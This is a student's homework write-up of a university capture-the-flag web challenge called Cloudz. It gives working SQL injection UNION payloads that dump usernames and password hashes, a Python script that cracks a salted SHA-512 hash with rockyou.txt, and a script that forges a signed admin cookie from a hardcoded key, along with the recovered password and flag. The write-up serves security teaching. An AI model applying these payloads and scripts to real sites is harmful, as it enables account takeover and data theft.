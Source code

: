 # Homework #2 Write-up

## Personal Details  
Full name: **Theodoros Moraitis** (Θεόδωρος Μωραΐτης) <br>
StudentID: **sdi2000150** (1115202000150) <br>
HackCenter username: **teomor** (provided in the `username` file too)

## Intro
In this write-up, I describe how I solved one of the most interesting challenges from the second Capture-The-Flag (CTF) Competition (Cryptography & Web Exploitation).
The challenge I am referring to is **Cloudz**.

## Cloudz: SQL Injection + Password Hash Cracking + Cookie Forgery

**Cloudz** is a web-exploitation challenge where the goal is to log-in as admin and get the flag revealed. Based on the description, admin account is deleted, so there must be another way to obtain admin's privileges even if not logged in as admin. The Python server source code was provided, giving insight into its authentication mechanism.

### Key Observations/Vulnerabilities from Source Code (`server.py`)

I observed the below, in this order:

1. The login endpoint is **vulnerable to an SQL injection**, as no sanitization is used:
   ```python
   result = c.execute("SELECT name, password, admin FROM users WHERE name ='%s';" %  user).fetchone()
   ```

2. Passwords were stored as SHA-512 hashes with a **fixed salt** (`salt = b'no_google_for_you'`), meaning a hashed password could be easily cracked.

2. Cookie integrity was protected with a **hardcoded secret key** (`app.secret_key = b'312edc37ea3f3f8d80c4a2c9752ae367'`), meaning if the key is known (as it is in this challenge), anyone can forge cookies.

### Exploitation Steps

#### 1. **SQL Injection**

At first I focused on the SQL injection. I knew I could someway obtain useful information from the database, so I tested with `UNION`. I observed that giving the following query as username, with any password:
```sql
' UNION SELECT name, password, admin FROM users;--
```
It returned a JSON:
```JSON
{
  "error": "You're not Adam Racine!"
}
```
A user! Maybe the first one from the table `users`. But it did not give me his password. <br> <br>
After many attempts and a lot of online research, I found this very useful query:
```sql
' UNION SELECT name || password || admin, NULL, NULL FROM users;--
```
, which combines multiple columns (name, password, admin) into one, using string concatenation. The `NULL, NULL` parts fill the rest of the expected columns so the query structure stays valid. <br> <br>
To make it more readable, I did:
```sql
' UNION SELECT name || '~' || password || '~' || admin, NULL, NULL FROM users;--
```
Giving the above query as username, and anything as password, I got as answer a JSON:
```JSON
{
  "error": "You're not Adam Racine~d77ea67d8b7fffd49c0c5fe6a790c117f1fc51bd7cece8abaee4e58abcbc97e5381de7edc698edba9e25927801f257250cb8d01f85245d33863f3654cf709327~0!"
}
```
From the above we can cleary see the user's password hash (`d77ea67d8b7fffd49c0c5fe6a790c117f1fc51bd7cece8abaee4e58abcbc97e5381de7edc698edba9e25927801f257250cb8d01f85245d33863f3654cf709327`) and his admin bit (`0`).

#### 2. **User Password Hash Cracking**

So, I now had a user and his hashed password. Keeping in mind the hint *"People are bad at passwords."* plus the fact that the salt used for the password hashing was known (`"no_google_for_you"`), I thought to try a **brute-force**:
*hashing with this specific salt each and all words from `rockyou.txt` and comparing each result hash with the hashed password from the user above.* <br>
This is the python script I used: <br>
```python
import hashlib

# Known salt from source
salt = b'no_google_for_you'

# Known password hash from previous step
target_hash = "d77ea67d8b7fffd49c0c5fe6a790c117f1fc51bd7cece8abaee4e58abcbc97e5381de7edc698edba9e25927801f257250cb8d01f85245d33863f3654cf709327"

# Brute force with rockyou.txt
with open("/home/teomor/Documents/my_programs/hackintro/Homework#2/cryptography/rockyou.txt", "r", encoding="latin-1") as f:
    for line in f:
        password = line.strip()
        test_hash = hashlib.sha512(salt + password.encode()).hexdigest()
        if test_hash == target_hash:
            print(f"Password found: {password}")
            break
```
After running the script I got:
```bash
Password found: july31
```
So, I had the user's credentials! Now I could login as this user, but...<br>
Unfortunately logging in as user doesn't give you any flag, you are just a regular user - not admin:
```html
    Welcome Adam Racine!
    You need to be admin to do anything here
```

#### 3. **Admin Cookie Forgery**

There should be a way, being logged in as user, to get admin privileges and obtain the flag. With a little of discussion with my fellows and some research, I found that I could create ("forge") a new cookie that belongs to `Adam Racine` but it acts as `admin`.
Knowing the known secret key and user's username and password, I forged a cookie with `"admin": 1` manually, with this python script:
```python
import json, hashlib, binascii

# User login info
user = "Adam Racine"
password = "july31"
admin = 1

secret_key = b'312edc37ea3f3f8d80c4a2c9752ae367'

# Cookie struct
cookie = {
    "user": user,
    "password": password,
    "admin": admin
}

# Calculate digest for the cookie
digest = hashlib.sha512(secret_key + json.dumps(cookie, sort_keys=True).encode()).hexdigest()
cookie["digest"] = digest

# Convert to hex cookie string
cookie_str = json.dumps(cookie).encode()
hex_cookie = binascii.hexlify(cookie_str).decode()

print("Manual admin cookie created:\n")
print(hex_cookie)
```
After running the script I got:
```bash
Manual admin cookie created:

7b2275736572223a20224164616d20526163696e65222c202270617373776f7264223a20226a756c793331222c202261646d696e223a20312c2022646967657374223a20223039383363303033656239306661336337626533323361313066343432333231363137396637363131323665336239656137346631326534623139643939313834336638343761336538616135343863393936663733633633373337313962353737396438373262336564663533626565663032653961323161646639323730227d
```

#### 4. **Outcome**

Having a manually crafted cookie of our user, with admin bit set to 1, now I opened developer tools on the browser, while being logged in as `Adam Racine` with password `july31`, and I edited the `auth` cookie into the new one created previously. Then with just a refresh on the page, I got:
```html
    Welcome Adam Racine!
    Welcome admin! here is the flag: ece18f77edae9403cde875aa62eae0f8
```
I finally gained the flag! `ece18f77edae9403cde875aa62eae0f8`

## Resources
- About SQL Injection:
    - https://www.techonthenet.com/sqlite/functions/concatenate.php 
    - https://portswigger.net/web-security/sql-injection/union-attacks
    - https://sudip-says-hi.medium.com/union-based-sql-injection-guide-to-understanding-mitigating-such-attacks-1775149e80e6
- About User Password Hash Cracking:
    - https://medium.com/rangeforce/password-cracking-6d9612915f03
    - `rockyou.txt`
- About Admin Cookie Forgery:
    - https://ldvargas.medium.com/hackpackctf-cookie-forge-3d922862d383
